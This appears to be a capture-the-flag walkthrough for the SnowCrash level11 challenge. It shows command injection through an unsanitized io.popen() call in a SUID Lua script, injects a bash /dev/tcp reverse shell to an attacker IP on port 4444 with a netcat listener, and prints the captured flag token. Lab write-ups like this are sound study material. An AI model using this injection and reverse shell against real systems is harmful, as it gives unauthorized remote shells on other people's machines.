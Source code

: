 - In directory `/home/user/level11` the script `level11.lua` has the SUID set to execute as `flag11`.
```
level11@SnowCrash:~$ pwd
/home/user/level11
level11@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile
```

- Examining the script reveals that a user can connect to localhost on port 5151 and is prompted with 'Password: '. Upon entering the password the password is passed into a hash function. However, the user input is not sanitized at all

```
<snip>
local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)
<snip>
```

- In the hash function the user input is used in the io.popen() function unsanitized to make a system call. The opportunity to carry out command injection exists.

``` 
<snip>
prog = io.popen("echo "..pass.." | sha1sum", "r")
<snip>
```

- A reverse shell payload is created to connect back to the attack machine on port 4444.
`/bin/bash -c '/bin/sh -i >& /dev/tcp/<attackIp>/4444 0>&1'`

- A netcat listener is started on the attack machine on port 4444
```
┌──(kali㉿kali)-[~/Desktop/snowcrash]
└─$ nc -lnvp 4444                                            
listening on [any] 4444 ...
```

- Then on the target host (snowcrash) we connect to localhost 5151 and when prompted with the password we carry out command injection by breaking out of the `echo` command with the `;` terminator, and injecting our reverse shell script

```
level11@SnowCrash:~$ nc localhost 5151
Password: passw; /bin/bash -c '/bin/sh -i >& /dev/tcp/10.13.200.129/4444 0>&1'
```

- On the attack machine, a reverse shell is obtained as `flag11` and the flag token is retrieved
```
┌──(kali㉿kali)-[~/Desktop/snowcrash]
└─$ nc -lnvp 4444                                            
listening on [any] 4444 ...
connect to [10.13.200.129] from (UNKNOWN) [10.13.200.131] 52966
/bin/sh: 0: can't access tty; job control turned off
$ whoami
flag11
$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ip
```

- Using the token authenticate as `level12` on the target host
```
level11@SnowCrash:~$ su level12
Password: 
level12@SnowCrash:~$ 

```
